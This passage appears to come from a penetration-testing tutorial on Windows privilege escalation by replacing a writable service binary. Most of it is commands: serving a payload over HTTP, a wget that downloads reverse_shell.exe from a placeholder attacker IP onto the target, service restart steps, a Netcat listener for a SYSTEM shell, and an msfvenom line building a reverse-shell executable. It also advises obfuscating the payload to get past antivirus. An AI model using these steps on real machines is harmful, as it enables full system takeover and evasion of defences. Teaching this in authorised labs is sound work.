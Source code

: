 **Target Service:**

* Runs as `LocalSystem`
* Auto Start
* Path = `C:\Program Files\Example\service.exe`
* Writable by user `bob`

**Steps:**

1. Run `sc qc ExampleService` → see path and privileges.
2. Download and run `AccessChk` → confirm write permissions.
3. Upload a malicious executable using Python HTTP server:

```bash
python3 -m http.server 8000
```

On target machine:

```powershell
wget http://<your-ip>:8000/reverse_shell.exe -OutFile "C:\Program Files\Example\service.exe"
```

4. Restart service:

```powershell
sc stop ExampleService
sc start ExampleService
```

5. Open Netcat listener:

```bash
nc -lvnp 4444
```

6. SYSTEM shell opened!

---

## ➤ **4.3.7 How to Create a Malicious Executable**

You can use `msfvenom` or write a simple reverse shell in C.

Example using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_shell.exe
```

✔ Use obfuscation options to bypass antivirus if needed.

---

## ➤ **4.3.8 Risks and Safety Tips**

✔ Modifying services carelessly can crash the system
✔ Antivirus may block your payload → test with clean setups
✔ Running exploits without understanding permissions → leads to lockout
✔ Always take snapshots before testing

---